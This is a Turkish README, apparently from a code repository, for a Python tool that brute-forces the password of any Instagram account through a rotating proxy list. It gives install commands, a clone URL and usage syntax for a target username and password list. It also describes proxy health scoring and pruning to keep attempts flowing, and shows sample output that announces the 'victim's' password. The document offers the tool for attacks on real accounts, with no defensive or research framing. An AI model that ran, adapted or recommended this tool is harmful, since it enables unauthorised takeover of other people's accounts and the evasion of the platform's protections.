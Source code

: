 ## **İNSTAGRAM BRUTE FORCE ATTACK**

**BU PROGRAM, BIR PROXY LISTESI VERILDIĞINDE GÖNDERDIĞINIZ HERHANGI BIR INSTAGRAM HESABINA BRUTEFORCE UYGULAYACAKTIR.**


# **Gereksinimler**
- > *Python v3.9*
- > ****Günce Proxy Listesi

# **DESTEKÇILERI YÜKLEYIN**
- > *pip install pipenv**


 **PYTHON 3.9'UN KURULU OLDUĞUNDAN EMIN OLUN**
- > *pipenv --python 3.9*

# **Kurulum Gereksinimleri**
- > pipenv install

# **YARIMCI KOMUTLAR**


- *> usage: -h, --help    -k KULLANICIADI, -p PASSLISTESI,-px PROXYLISTESI,  --prune PRUNE --stats               proxy istatisliklerini görmek için -nc, --renk yok*

**Programa bir proxy listesi yükleyin. Proxy dosyası şu formatta olmalıdır: ip:port**

**Örnek;**

> *proxies_list.txt
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80*
**

**PROXY LISTESINI YÜKLEMEK IÇIN YAZILACAK KOMUT **
- > *python3 Erkoyuncu.py -px <proxy yolu>*


**BU, KOMUT PROXYLER HAKKINDA SAĞLIK DURUMUNU VERIR.**

- > *python Erkoyuncu.py --stats*

**BU, BELIRLI BIR PUANIN ALTINDA BIR PUANA SAHIP PROXY'LERDEN KURTULMAYI SAĞLAR. AŞAĞIDA PROXY PUANI OLAN PROXY'LERIN VERITABANINI SIZE GÖSTERIR (Yazılım zaten hangi proxy'lerin kötü performans gösterdiğini otomatik olarak öğrenecek ve bunları kullanmayı bırakacaktır.)**

- > *python Erkoyuncu.py --prune 0.05*-

# **Kullanım**
>-  *git clone https://github.com/erkoyuncu/volkan.git*

> - python3 Erkoyuncu.py -u kullanıcıadı -p passlistesi -px proxylistesi


- > *YAZILIM İÇİ
- [-] Passwordlistesi:
- [-] Kullanıcı Adı:
- [-] Şifre:
- [-] Tamamlanan:
- [-] Denenen:
- [-] Proxyler:
- [-] Bağlantı:*

- *> [!] HEYY Kurbanın Şifresini Buldum 
- [+] Kullanıcı Adı:
- [+] Şifresi:*
